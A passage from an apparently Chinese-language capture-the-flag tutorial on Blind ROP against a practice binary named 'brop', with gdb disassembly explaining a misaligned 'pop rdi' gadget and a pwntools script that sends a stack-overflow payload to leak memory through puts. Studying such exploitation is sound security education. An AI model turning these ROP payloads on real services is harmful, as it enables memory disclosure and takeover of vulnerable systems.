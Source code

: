 ```plain
[+] Starting local process './brop': pid 122979
[*] Stopped process './brop' (pid 122979)
puts plt address = 0x400555
```

解释为什么pop\_rdi\_ret = brop\_gadgets + 9：

```plain
gdb-peda$ x /10i 0x4007ba
   0x4007ba <__libc_csu_init+90>:   pop    rbx         #这是brop_gatgets
   0x4007bb <__libc_csu_init+91>:   pop    rbp
   0x4007bc <__libc_csu_init+92>:   pop    r12
   0x4007be <__libc_csu_init+94>:   pop    r13
   0x4007c0 <__libc_csu_init+96>:   pop    r14
   0x4007c2 <__libc_csu_init+98>:   pop    r15
   0x4007c4 <__libc_csu_init+100>:  ret    
   0x4007c5:    nop
   0x4007c6:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:  repz ret 

gdb-peda$ x /20i 0x4007ba+9
   0x4007c3 <__libc_csu_init+99>:   pop    rdi         #brop_gatgets+9
   0x4007c4 <__libc_csu_init+100>:  ret    
   0x4007c5:    nop
   0x4007c6:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:  repz ret 
   0x4007d2:    Cannot access memory at address 0x4007d2

#还是看这两句吧
 4007c2:    41 5f                   pop    %r15
 4007c4:    c3                      retq
 #这是pop r15  ret的字节码，但是由于pop rdi，ret的字节码是0x5f 0xc3
 #故地址指向4007c3的时候解析出来的就是pop rdi，与此类似，还有0x4008A1处的 pop rsi，pop r15，ret
 #这就是由opcode错位产生的
```

6、 dump plt 表，用于 leak 所需函数的 got 地址

```plain
from pwn import *
from LibcSearcher import *

def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    p = process('./brop')
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    p.recvuntil('password?\n')
    p.sendline(payload)
    try:
        data = p.recv()
        p.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        p.close()
        return None


##buffer_length = getBufferLength()
buffer_length = 72
```